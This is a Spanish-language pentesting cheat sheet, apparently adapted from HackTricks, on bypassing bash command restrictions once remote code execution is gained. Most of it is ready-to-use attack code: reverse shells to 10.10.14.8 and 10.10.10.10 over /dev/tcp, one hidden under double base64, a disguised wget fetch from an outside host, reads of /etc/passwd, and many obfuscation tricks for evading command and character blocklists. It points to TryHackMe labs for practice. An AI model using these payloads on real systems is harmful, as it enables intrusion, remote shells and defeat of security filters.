 ```yaml
---
title: Bypass Bash Restrictions
published: true
---
```


# BYPASS BASH RESTRICTIONS

## Table of contents

- [BYPASS BASH RESTRICTIONS](#bypass-bash-restrictions)
  - [INTRODUCCION](#introduccion)
  - [TRUCOS REVERSE SHELL](#trucos-reverse-shell)
    - [PROBAR CON RUTA ABSOLUTA](#probar-con-ruta-absoluta)
    - [DOBLE BASE64](#doble-base64)
    - [SHORT REVERSE SHELL](#short-reverse-shell)
  - [TRUCOS PALABRSA PROHIBIDAS Y BYPASS PATHS](#trucos-palabrsa-prohibidas-y-bypass-paths)
    - [SUSTITUIR UN CARACTER CON SIGNO DE INTERROGACION](#sustituir-un-caracter-con-signo-de-interrogacion)
    - [SUSTITUIR UN CARACTER CON COMODIN](#sustituir-un-caracter-con-comodin)
    - [SUSTITUIR UN CARACTER ENCERRANDOLO ENTRE CORCHETES](#sustituir-un-caracter-encerrandolo-entre-corchetes)
    - [COMILLAS PARA CONCATENACIONES](#comillas-para-concatenaciones)
    - [EJECUCION A TRAVES DEL $0](#ejecucion-a-traves-del-0)
    - [BYPASS MEDIANTE VARIABLES NO INICIALIZADAS](#bypass-mediante-variables-no-inicializadas)
    - [BYPASS USANDO FALSOS COMANDOS](#bypass-usando-falsos-comandos)
    - [BYPASS MEDIANTE CONCATENACION USANDO EL HISORIAL](#bypass-mediante-concatenacion-usando-el-hisorial)
  - [BYPASS ESPACIOS PROHIBIDOS](#bypass-espacios-prohibidos)
  - [BYPASS SLASH Y BACKSLASH](#bypass-slash-y-backslash)
  - [BYPASS CON CODIFICACION EN HEXADECIMAL](#bypass-con-codificacion-en-hexadecimal)
  - [BYPASS DE IP](#bypass-de-ip)

## INTRODUCCION

Puede suceder que tenemos un RCE o una reverse shell pero nos bloquea ciertos comandos o caracteres, esto es posible evadir jugando con algunos trucos.

## TRUCOS REVERSE SHELL

### PROBAR CON RUTA ABSOLUTA

```bash
/bin/ls
```

[https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### DOBLE BASE64

```bash
# Double-Base64 es una gran manera de evitar bad charecters como +, funciona el 99% del tiempo
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
#echo\WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

### SHORT REVERSE SHELL

```bash
#invocar la reverse shell
(sh)0>/dev/tcp/10.10.10.10/443
#luego colocar esto para tener una salida
exec >&0
```

## TRUCOS PALABRSA PROHIBIDAS Y BYPASS PATHS

### SUSTITUIR UN CARACTER CON SIGNO DE INTERROGACION

```bash
/usr/bin/p?ng #/usr/bin/ping
nma? -p 80 localhost #/usr/bin/nmap -p 80 localhost
```

### SUSTITUIR UN CARACTER CON COMODIN

```bash
/usr/bin/who*mi # /usr/bin/whoami
```

### SUSTITUIR UN CARACTER ENCERRANDOLO ENTRE CORCHETES

```bash
# [chars]

/usr/bin/n[c] # /usr/bin/nc
```

### COMILLAS PARA CONCATENACIONES

```bash
# Quotes / Concatenation

'p'i'n'g # ping

"w"h"o"a"m"i # whoami

\u\n\a\m\e \-\a # uname -a

ech''o test # echo test

ech""o test # echo test

bas''e64 # base64

/\b\i\n/////s\h
```

### EJECUCION A TRAVES DEL $0

En $0 se encuentra el tipo de shell que utiliza el sistema por defecto, puede ser **sh, bash, zsh, etc**

```bash
echo whoami|$0
```

### BYPASS MEDIANTE VARIABLES NO INICIALIZADAS

```bash
# Variables no inicializadas: Una variable no inicializada es igual a nulo (nada)

cat$u /etc$u/passwd$u  # cat /etc/passwd

p${u}i${u}n${u}g #ping
```

### BYPASS USANDO FALSOS COMANDOS

entre caracter y caracter del comando que queremos ejecutar podemos colocar un comando erroneo, dependiendo de cuantos errores pongamos nos saldran la misma cantidad de errores y al final el resultado del comando

```bash
p$(u)i$(u)n$(u)g # ping

w`u`h`u`o`u`a`u`m`u`i #whoami

# w`u`h`u`o`u`a`u`m`u`i
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
root

```

### BYPASS MEDIANTE CONCATENACION USANDO EL HISORIAL

```bash
# Concatenación de cadenas usando el historial

# !-1 Se sustituirá por el último comando ejecutado, y !-2 por el penúltimo comando

mi # Esto arrojará un error (PENULTIMO)

whoa # Esto arrojará un error (ULTIMO)

!-1!-2 # Esto ejecutará whoami
```

## BYPASS ESPACIOS PROHIBIDOS

Estos trucos en caso de que los espacios entre comandos esten prohibidos:

```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test
```

```bash
## IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice

#  Other way, just change each space for ${IFS}
echo${IFS}test
```

```bash
# Using hex format
X=$'cat\x20/etc/passwd'&&$X
```

```bash
# New lines
p\
i\
n\
g # These 4 lines will equal to ping
```

```bash
## Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```

## BYPASS SLASH Y BACKSLASH

Trucos en casod e que esten prohibidos los slash y backslash:

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

## BYPASS CON CODIFICACION EN HEXADECIMAL

```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

## BYPASS DE IP

```bash
# Decimal IPs
127.0.0.1 == 2130706433

ping -c 1 2130706433
```

PRACTICAR:

- PICKLE RICK - THM

FUENTE:

- [https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions)